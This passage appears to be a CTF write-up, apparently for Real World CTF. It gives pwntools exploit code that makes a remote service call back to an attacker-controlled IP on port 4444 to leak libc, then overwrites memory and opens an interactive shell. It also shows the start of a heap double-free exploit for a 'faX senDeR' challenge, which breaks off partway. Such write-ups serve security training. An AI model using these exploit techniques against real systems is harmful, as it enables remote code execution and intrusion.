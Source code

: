 ```python=
payload = gen_payload(79)
r.send(payload)

IP = # local public IP

payload = gen_payload(96,"\x01\x01\x01"+
        socket.inet_aton(IP)+
        p16(4444)[::-1]+
        "\x80"*7)
ss = remote(host,port)
ss.send(payload)

l = listen(4444)
_ = l.wait_for_connection()
data = l.recvn(0x60)
idx = data.find("\x7f")
libc = u64(data[idx-5:idx+3])-0x108fbd0
print hex(libc)
#libc = int(raw_input(":"),16)
r.send("a"*0x28+p64(0x4)+"a"*0x448+p64(0x201)+p64(libc+0x3ed8e8))

rr = remote(host,port)
payload = gen_payload(0x220+80-1)
rr.send(payload)

rrr = remote(host,port)
payload = gen_payload(0x220+80-1)
rrr.send(payload)
rrr.send(p64(libc+0xe5858))

s.interactive()




```
### faX senDeR
* delete_msg didn't clean the pointer.
* add_msg with an invalid size, it won't set the new pinter, old pointer remained.
* double free

```python=
#!/usr/bin/env python
from pwn import *

# rwctf{Digging_Into_libxdr}

context.arch = 'amd64'
y = remote( 'tcp.realworldctf.com' , 10917 )

def add_con( len , name , l2 , ip ):
    p = p32( 1 , endian = 'big' )
    p += p32( 1 , endian = 'big' )
    p += p32( len , endian = 'big' ) + name.ljust( len , '\0' )
    p += p32( l2 , endian = 'big' )
    p += ip
    y.send( p.ljust( 0x100 , '\0' ) )
    r = y.recv( 0x1000 )
    print r[:0x20]

def list_con():
    p = p32( 2 , endian = 'big' )
    y.send( p.ljust( 0x100 , '\0' ) )
```